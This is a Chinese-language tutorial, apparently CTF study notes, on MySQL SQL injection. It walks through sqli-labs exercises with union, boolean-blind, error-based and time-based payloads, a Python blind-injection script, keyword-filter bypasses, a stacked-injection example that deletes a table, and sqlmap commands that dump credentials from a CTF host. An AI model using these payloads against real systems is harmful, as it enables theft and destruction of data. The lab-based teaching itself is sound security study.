

# **SQL注入基础**

## 定义

​		结构化查询语言（Structured Query Language）简称SQL，是一种**数据库查询**和程序设计语言，用于存取数据以及查询、更新和管理关系数据库系统；同时也是数据库脚本文件的扩展名。网页的应用数据和后台数据库汇总的数据进行交互时会采用SQL。

## 数据库基础

​		数据库是“按照数据结构来组织、存储和管理数据的仓库”。是一个长期存储在计算机内的、有组织的、可共享的、统一管理的大量数据的集合。


### 		例子1

​				以MySQL为例：

​				存在如下


只看example目录下的内容以及右侧的表单。

​		其中example称为数据库（Database），数据库中包含着表（Table），也就是上图中的table1。表中又包含着列（Column），右表中的no、name、job就是三个列。竖着看叫列，横着看叫记录，每一行都是一条记录，其中记录着某一个特定的个体。每一格中的具体信息叫做字段，其中包含着数据项，就像上图中具体人名Smith。


### 基本信息库information_schema

MYSQL数据库中自带information_schema库，其中记录了一些本数据库的基本信息

“tables”库记录了数据库中的所有表的相关信息。


“columns”库则记录了数据库中的所有字段信息


参照之前的数据库，example中的表table1和table2都有记录，如果已经知道当前的数据库名字，就可以通过这个来寻找这个数据库包含的表。同理，要是知道当前表的名字，就可以通过sql语句输出所需的字段名。

### 		格式

​		mysql的功能有增、删、改、查四个方面，我们所用到的只有其中的“查”。

基本的查询语句如下（不注重大小写）：

​	select 内容1 from 内容2 where 内容3;

其中：

​	内容1：查询的列    如果是* 则认为查询all

​	内容2：查询的内容所在的表

​	内容3：查询的限定条件

#### 	举例

​	


```mysql
select name from table1 where no = 1;
```
查询的就是table1表中no为1的name，查询的结果为Smith。


```
select no,name from table1 where no = 1;
```
SQL支持同时查询多条项目，只需要将查询的内容用  ‘ ,‘分隔开就能做到，但是需要注意，每条查询的内容不能出现歧义，否则会报错。（不过基本用于跨表格进行查询，单表不需要注意）

## SQL注入

​			SQL注入是将Web页面的原URL、表单域或数据包输入的参数修改拼接成SQL语句，传递给Web服务器，进而传给数据库服务器以执行数据库命令，最终达到欺骗服务器执行恶意的SQL命令。通过构造恶意的输入，使数据库执行恶意命令，造成数据泄露或者修改内容等，以达到攻击的目的。

### 		原理

​		之所以会产生SQL注入，主要是由于应用程序对用户的输入没有进行严格的过滤而造成的。因此作为攻击的一方，就可以探索对方有无SQL漏洞，从而利用SQL注入来获取对方数据库里的信息。

*PS：SQL注入的利用点之一就是可以通过注入获得对方数据库里的内容，比如某些VIP的账号密码等。*

### 		基本

#### 				联合查询union


```mysql
select name from table1 where no =1 union select name from table1 where no = 2;
```

联合查询可以做到额外进行一次查询，并且把第二次的结果放在第一次查询结果的**下面**。

PS:需要注意的是，union查询的内容条目数量必须与前面的select条目数量相同，否则会报错


#### limit（整数1，整数2）

​	limit常用于返回指定的记录数


```
select * from table1 limit 0,3;
select * from tbale1;
```

一般会用于控制查询输出，limit后的两个整数代表了两个含义：①整数1：代表从结果的第几条开始输出，最小值为0；②整数2：代表输出几条记录。

#### order by

order by 函数可用以对先有的输出进行排序整合，按照某列的排列顺序为主进行输出，并且会在超出可排序列的时候报错。


```mysql
select * from table1 order by 3;
```


```mysql
select * from table1 order by 4;
```

如上图，当尝试以第四列进行排列的时候，显然不存在该列，于是进行了报错。可以得知有三列

##### 利用

一般会在SQL的借口设置limit，以防止一次性输出过多的数据


这个时候可以考虑利用一个SQL存在的BUG，在联合注入的时候选择前半部分的注入为‘-1’来使得前半部分的注入无效，转而获得后半部分注入的值。


```mysql
select * from table1 where no = -1;
```


```mysql
select * from table1 where no = 1 union select 1,2,3;
```


```mysql
select * from table1 where no = 1 union select 1,2,3 limit 0,1;
```


```mysql
select * from table1 where no = -1 union select 1,2,3 limit 0,1;
```


#### 侵入

已经获得了基本的注入能力，可以开始考虑通过反馈获得数据库的相关信息来寻找flag了。

##### database()

函数database()可以返回当前数据所在的数据库


```mysql
select * from table1 where no = -1 union select 1,2,database();
```

可知当前的数据存在数据库example中。

##### group_concat(xxx)

group_concat()函数可用以在一个内容中放置所有符合结果的值，一般可以用来存放寻找出来的有效信息，提高效率


```mysql
select * from table1 where no = -1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = 'example';
```

上述查询可以搜索得到example数据库中包含的表，思路为：

> 先通过查询no = -1 的记录，使得前半段无效，然后进行联合注入，选择与前段相同的查询数，并在第三个查询中使用group_concat()函数来一次性输出，输出的内容为information_schema数据库的tables表（**information_schema.tables**）中数据库名为’example‘的表名
>
> `schema即为集合`

### sqli-labs-master/less-1


sqli-labs-master是个练手的东西，里面包含了很多的绕过等东西，可以写着玩，可惜的是里面没有flag这些东西。
> 事先在页面源码加入了显示sql语句的代码，方便观察（php5.5）

​	

可以发现在输入的过程中，输入的id值及后方的值都被包含在单引号 ’ 内，导致无法正常注入。


上述空格等某些符号在输入后会转化成%20这种奇怪的东西，是URL编码的结果，有时候也会被利用。

这个时候，就可以通过在数字后方补齐单引号，跟上语句后，再将后方的单引号注释掉，就可以做到正常注入了


一般会选择利用“--+” 或者“#” 或  “%23” （#的URL编码结果）

实操一下（代码均为省略前面部分内容：http://127.0.0.1/sqli-labs-master/Less-1/?id=）

```mysql
1 order by 100000
```

结果正常输出，说明存在闭合。	尝试在1后方加  ’   或者   “，注意在结尾加上--+注释掉多余的闭合

```mysql
1' order by 100000--+
```

不存在该列，说明后面的语句已经被正常引用了。	接下来通过不断尝试可以得知字段数为   3

```mysql
1' order by 3--+
```

正常输出。				就可以开始进行搜集信息了。

```mysql
-1‘ union select 1,2,3 --+
```

输出的结果为name:2  ;  password:3 ;   说明输出为第二和第三个字段。	任选其一获得数据库名

```mysql
-1’ union select 1,2,database() --+
```

可知当前的数据库名为  security。	根据数据库名来找所存在的表

```mysql
-1' union select 1,2,(select group_concat(table_schema) from information_schema.tables) --+
```

可以获得对方所有的数据库值，在其中再挑选最像有flag的。（本题上述payload无意义）

```mysql
-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = 'security'--+
```

可以获得当前所在数据库中的所有表名，并且展示在password栏中。

包含有emails、referers、uagents、users。任选其一继续深入

```mysql
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
```

获得当前的表中的所有字段名：id、username、password。

```mysql
-1' union select 1,2,group_concat(password) from users--+
```

至此获得所有账号的密码，也算成功了。

### 其他情况

​		上述情况为最简单的sql注入，没有任何的阻碍就可以进入，sql注入会包含其他的情况：

#### 	无回显类型

> ​		参考sqli-labs-master/Less-5/

这种类型的题目不会或者只有在正确时会有显示，而且显示值不会改变，称为盲注。

可供选择的解法有多种：布尔盲注、报错注入、时间盲注

就上述三种情况讲讲

##### 布尔盲注：

布尔盲注是基于输入数据的对错来判断注入是否正确的


```mysql
1’ and 1=3--+
```

显然后面的式子是不成立的，所以无回显


```mysql
1' and 1=1--+
```

成立则会有回显。


```mysql
1' and length(databse())>5--+
```

不断比较可以得出数据库的长度为8。


```mysql
1' and substr(database(),1,1)>'m'--+
```

其中substr(字符串，整数1，整数2)  可以获得字符串的第整数1个字符开始的长度为整数2的一串字符

例子：

```mysql
substr(string,1,3)
str
```

上述采用的是二分法，不断取中来比较字符，最后获得一整串值，手写较累，建议用脚本。

参考链接：https://www.cnblogs.com/Spec/p/10648793.html

```mysql
import requests
import os
 
#此函数先判断数据库长度
def length(url,str):
    num = 1
    while True:
        str_num = '%d' %num
        len_url = url + "' and (select length(database()) = " + str_num +")--+"
        response = requests.get(len_url)
        if str in response.text:
            print("%s" %str_num)
            content(url,str,num)
            break
        else:
            num = num + 1
 
#此函数判断字符串具体的内容
def content(url,str,num):
    s = ['1','2','3','4','5','6','7','8','9','0','a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z']
    con_num = 1
    database=''
    while con_num <= num:
        str_num = '%d' %con_num
        for i in s:
            con_url = url + "' and (select mid(database(),"+ str_num +",1)='"+ i +"')--+"
            response = requests.get(con_url)
            if str in response.text:
                database +=i
                print i
        con_num = con_num + 1
    print database
if __name__ == '__main__':
    url = "http://127.0.0.1/sqli-labs-master/Less-5/?id=1"
    response = requests.get(url)
    str = "You are in..........."
    if str in response.text:
        length(url,str)
    else:
        print("请输入正确的地址")   
```

其余的部分参考上述

```mysql
#库中有几个表：
		
1' and ((select count(table_name) from information_schema.tables where table_schema = 'security') = 4)--+

#测表名长度：
	
1' and (select length((select table_name from information_schema.tables where table_schema = 'security' limit 0,1)) = 10)--+

#爆表名：
	
1' and (select mid((select table_name from information_schema.tables where table_schema = 'security' limit 0,1),1,1)='a')--+

#表中有几列：
	
1' and ((select count(column_name) from information_schema.columns where table_name = 'users' and table_schema = 'security') = 3)--+

#测列名长度：
	
1' and (select length((select column_name from information_schema.columns where table_name = 'users' and table_schema = 'security' limit 1,1)) = 8)--+

#爆列名:
	
1' and (select mid((select column_name from information_schema.columns where table_name = 'users' and table_schema = 'security' limit 1,1),1,1)='u')--+

#爆用户名：
	
1' and (select mid((select username from security.users limit 0,1),1,1)='d')--+

#爆密码：
	
1' and (select mid((select password from security.users limit 0,1),1,1)='d')--+
```

##### 报错注入：

报错注入是基于sql数据库的报错机制实现的注入，利用的是extractvalue()或updatexml()函数。

###### extractvalue(XML_document，XPath_string);

第一个参数XML_document：是string格式，为XML文档对象的名称，文中为Doc

第二个参数XPath_string：是XPath格式的字符串

payload演示：

```mysql
1' and extractvalue(1,concat(0x7c,(select database())))--+
```


###### updatexml(XML_document,XPath_string,new_value);

第一个参数XML_document：是string格式，为XML文档对象的名称，文中为Doc

第二个参数XPath_string：为XPath格式的字符串

第三个参数new_value：string格式，替换查找到的符合条件的数据

payload演示：

```mysql
1' and updatexml(1,concat(0x7c,(select database())),1)--+
```


报错的原因是因为第二个参数需要的是Xpath格式的字符串，与我们输入的显然不符合，所以报错

##### 时间盲注：

###### if函数

if(expr1,expr2,expr3)

如果expr1是ture，则if的返回值为expr2，否则返回值为expr3

###### sleep()函数

sleep函数会使计算机的响应延时，从而达到判断expr1的输入是否正确。


```mysql
1' and if(database()="aaa",sleep(5),1) --+
```


方法类似于上述其他情况，

#### 关键字绕过

##### 1、空格绕过

此时可以用注释符/**/代替

例如

```mysql
union/**/select/**/1,2,database();
```
或者用%a0
```mysql
union%a0select%a01,2,database();
```
或者用比较符号<>绕过
```mysql
union<>select<>1,2,database();
```
##### 2、关键字绕过
绕过union,select,where等
可以通过改变大小写或者穿插使用大小写
```mysql
U/**/ NION /**/ SE/**/ LECT /**/user
```
或者使用内联注释绕过
```mysql
id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /
*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()# 
```
双关键字绕过（有的题目匹配到字符会自动删除）
```mysql
id=-1'UNIunionONSeLselectECT1,2,3--+
```


### 堆叠注入

#### 定义

Stacked injections（堆叠注入）是一堆sql语句（多条）一起执行，利用sql中“；”是语句的结尾来实现多条语句的同时执行。

#### 原理

在sql中，分号（；）是用来表示一条sql语句的结束。

##### union injection的区别：

union也是将两条语句合并在一起，但是二者是有区别的。

union执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。

##### 例子

1;delect from products。服务器端生成的sql语句为：
select * from products where productid = 1;delect from products。

第一条显示查询信息，第二条则将整个表进行删除

##### 局限

堆叠注入并不适用于每一个环境下，可能会受到API或者数据库引擎不支持的限制。

### 预处理+堆叠注入

预处理语句的使用：

```mysql
PREPARE name from '[mysql sequece]'；//预定义sql语句
EXECUTE name;						//执行预定义sql语句
(DEALLOCATE || DROP) PREPARE name;	//删除预定义sql语句
```

预定义语句也可以通过变量进行传递：

```mysql
SET @tn = 'hahaha';					//存储表名
SET @sql = concat('select * from ', @tn);//存储sql语句
PREPARE name from @sql;				//预定义sql语句
EXECUTE name;						//执行预定义sql语句
(DEALLOCATE || DROP) PREPARE sqla;	//删除预定义sql语句
```

可以利用char()方法将`ASCII码`转换为`SELECT`字符串，接着利用`concat()`方法进行拼接获得查询的sql语句，从而绕过过滤或者直接使用`concat()`方法绕过。

```mysql
char()								//根据ASCII表返回给指定整数值的字符值
example:
mysql>SELECT CHAR(77,121,83,81,76);
->'mysql'

concat()							//将多个字符串连接成一个字符串
concat(str1,str2);
example:
mysql>SELECT CONCAT('my','s','ql');
->'mysql'
```

>char(115,101,108,101,99,116)<--->'select'


### sqlmap

打开后是个界面，到处乱点也没有找到啥有意义的东西，先用御剑跑网页，找不到什么特殊的东西。

​    然后尝试用sqlmap跑每一个网页，发现在找回密码的页面有注入

​    开始注入

python2 sqlmap.py -u "http://111.198.29.45:51492/findpwd.php" --data="username=1" --dbs


python2 sqlmap.py -u "http://111.198.29.45:51492/findpwd.php" --data="username=1" -D cetc004 --tables


python2 sqlmap.py -u "http://111.198.29.45:51492/findpwd.php" --data="username=1" -D cetc004 -T user --columns


python2 sqlmap.py -u "http://111.198.29.45:51492/findpwd.php" --data="username=1" -D cetc004 -T user -C 'username,password' --dump

